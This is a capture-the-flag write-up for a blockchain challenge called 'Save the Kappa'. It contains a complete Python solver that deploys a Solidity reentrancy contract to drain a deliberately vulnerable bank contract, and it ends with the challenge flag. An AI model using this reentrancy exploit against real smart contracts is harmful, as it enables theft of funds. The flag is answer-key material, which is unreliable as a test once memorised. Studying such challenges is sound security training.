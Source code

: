 # Save the Kappa : blockchain

I absolutely love kappa.  
Therefore, taking inspiration from “Kappa's River Drift”(This is a proverb meaning “Even Homer nods”.), I devised a challenge where helping a kappa results in receiving cucumbers—their favourite food—as a token of gratitude.  
This challenge was created for author's own study.  

Special thanks for karriho. He helped establish this as a legitimate challenge and contributed to creating `solver.py`.

## Result
Solved: 40  
Points: 344

1st: Satoki(BunkyoWesterns)  
2nd: Quriosity(sknb)  
3rd: CEO OF FFF(Lil L3ak)

## Challenge
Kappa always swim in chains. However, due to a mysterious force, one kappa was swept away by the river. Rescue the kappa that was swept away and receive a treasure as a reward!  
`nc chal1.fwectf.com 8020`

Difficulty: medium  
Attachment:  
・ [VulnerableBank.sol](VulnerableBank.sol)  
・ [Setup.sol](Setup.sol)

## writeup

Knowing the following will enable you to solve it:
* reentrancy, etc.

Below is the executable code:
```python solver.py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
save_the_kappa / solver.py
- Reentrancy(リエントランシー)攻撃で VulnerableBank(withdrawAll脆弱) を空にする。
- EIP-1559 / legacy 手数料の両対応（web3.py v5/v6 どちらでも動く）。
"""

import os
import sys
from web3 import Web3
from eth_account import Account
from solcx import compile_standard, install_solc, set_solc_version

RPC_URL   = os.getenv("RPC_URL", "http://127.0.0.1:8545")
BANK_ADDR = os.getenv("BANK_ADDR")
PLAYER_PK = os.getenv("PLAYER_PRIV")
STAKE_ETH = float(os.getenv("STAKE_ETH", "0.2"))  # 攻撃の初期デポジット(ETH)

if not BANK_ADDR or not PLAYER_PK:
    print("[!] BANK_ADDR / PLAYER_PRIV を環境変数で指定してください。")
    sys.exit(1)
if not PLAYER_PK.startswith("0x"):
    PLAYER_PK = "0x" + PLAYER_PK

BANK_ADDR = Web3.to_checksum_address(BANK_ADDR)

ATTACKER_SOURCE = r"""
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

interface IBank {
    function deposit() external payable;
    function withdrawAll() external;
}

contract ReentrancyKappa {
    IBank public bank;
    address payable public owner;
    uint256 public stake;

    constructor(address _bank) {
        bank = IBank(_bank);
        owner = payable(msg.sender);
    }

    function pwn() external payable {
        require(msg.sender == owner, "only owner");
        require(msg.value > 0, "no stake");
        stake = msg.value;
        bank.deposit{value: msg.value}();
        bank.withdrawAll();
    }

    receive() external payable {
        if (address(bank).balance > 0) {
            bank.withdrawAll();
        }
    }

    function drain() external {
        require(msg.sender == owner, "only owner");
        (bool ok, ) = owner.call{value: address(this).balance}("");
        require(ok, "drain failed");
    }
}
"""

def dual_raw_tx(signed):
    """web3.py v5(rawTransaction) / v6(raw_transaction) 両対応"""
    return getattr(signed, "rawTransaction", None) or getattr(signed, "raw_transaction", None)

def fill_fees(w3: Web3, tx: dict) -> dict:
    """
    チェーンがEIP-1559対応なら maxFeePerGas / maxPriorityFeePerGas を入れる。
    非対応なら gasPrice を入れる。
    既にどちらかが入っている場合は触らない。
    """
    # すでにfee指定があるなら何もしない
    if any(k in tx for k in ("maxFeePerGas", "maxPriorityFeePerGas", "gasPrice")):
        return tx

    latest = w3.eth.get_block("latest")
    base_fee = latest.get("baseFeePerGas")
    if base_fee is not None:
        # EIP-1559
        try:
            max_priority = w3.eth.max_priority_fee  # web3 v6: property
        except Exception:
            # フォールバック: 2 gwei
            max_priority = w3.to_wei(2, "gwei")
        max_fee = base_fee * 2 + max_priority
        tx["maxPriorityFeePerGas"] = int(max_priority)
        tx["maxFeePerGas"] = int(max_fee)
    else:
        # legacy
        tx["gasPrice"] = int(w3.eth.gas_price)
    return tx

def send_raw(w3: Web3, acct, tx: dict):
    """
    ローカル署名送信（EIP-1559/legacy自動対応）
    - nonce/chainId/gas を適切に埋める
    """
    tx = dict(tx)  # copy
    tx.setdefault("from", acct.address)
    tx.setdefault("chainId", w3.eth.chain_id)
    tx.setdefault("nonce", w3.eth.get_transaction_count(acct.address))
    tx.setdefault("gas", 1_500_000)
    tx = fill_fees(w3, tx)

    signed = acct.sign_transaction(tx)
    raw = dual_raw_tx(signed)
    txh = w3.eth.send_raw_transaction(raw)
    rcpt = w3.eth.wait_for_transaction_receipt(txh)
    if rcpt.get("status", 0) != 1:
        raise RuntimeError(f"tx failed: {rcpt}")
    return rcpt

def main():
    w3 = Web3(Web3.HTTPProvider(RPC_URL))
    assert w3.is_connected(), f"not connected to {RPC_URL}"
    acct = Account.from_key(PLAYER_PK)
    print(f"[+] player: {acct.address}")

    # コンパイル
    install_solc("0.8.26")
    set_solc_version("0.8.26")
    build = compile_standard({
        "language": "Solidity",
        "sources": {"Attacker.sol": {"content": ATTACKER_SOURCE}},
        "settings": {
            "optimizer": {"enabled": True, "runs": 200},
            "outputSelection": {"*": {"*": ["abi", "evm.bytecode.object"]}},
        },
    })
    abi = build["contracts"]["Attacker.sol"]["ReentrancyKappa"]["abi"]
    bytecode = build["contracts"]["Attacker.sol"]["ReentrancyKappa"]["evm"]["bytecode"]["object"]

    # 攻撃コントラクト deploy
    Attacker = w3.eth.contract(abi=abi, bytecode=bytecode)
    tx = Attacker.constructor(BANK_ADDR).build_transaction({"from": acct.address})
    rc = send_raw(w3, acct, tx)
    attacker_addr = Web3.to_checksum_address(rc["contractAddress"])
    print(f"[+] attacker: {attacker_addr}")
    attacker = w3.eth.contract(address=attacker_addr, abi=abi)

    # 攻撃前の残高
    before = w3.eth.get_balance(BANK_ADDR)
    print(f"[+] bank before: {w3.from_wei(before, 'ether')} ETH")

    # 攻撃開始（pwn + deposit）
    stake_wei = w3.to_wei(STAKE_ETH, "ether")
    tx = attacker.functions.pwn().build_transaction({"from": acct.address, "value": stake_wei})
    rc = send_raw(w3, acct, tx)
    print("[+] reentrancy done.")

    # 回収
    tx = attacker.functions.drain().build_transaction({"from": acct.address})
    send_raw(w3, acct, tx)

    after = w3.eth.get_balance(BANK_ADDR)
    print(f"[+] bank after : {w3.from_wei(after, 'ether')} ETH")
    if after == 0:
        print("[+] success: drained. Now press '3' in nc to get the flag.")
    else:
        print("[!] still not zero. Increase STAKE_ETH or gas if needed, and confirm Bank is withdrawAll-type.")

if __name__ == "__main__":
    main()
```

## flag

`fwectf{7h15_15_7h3_cucumber!}`
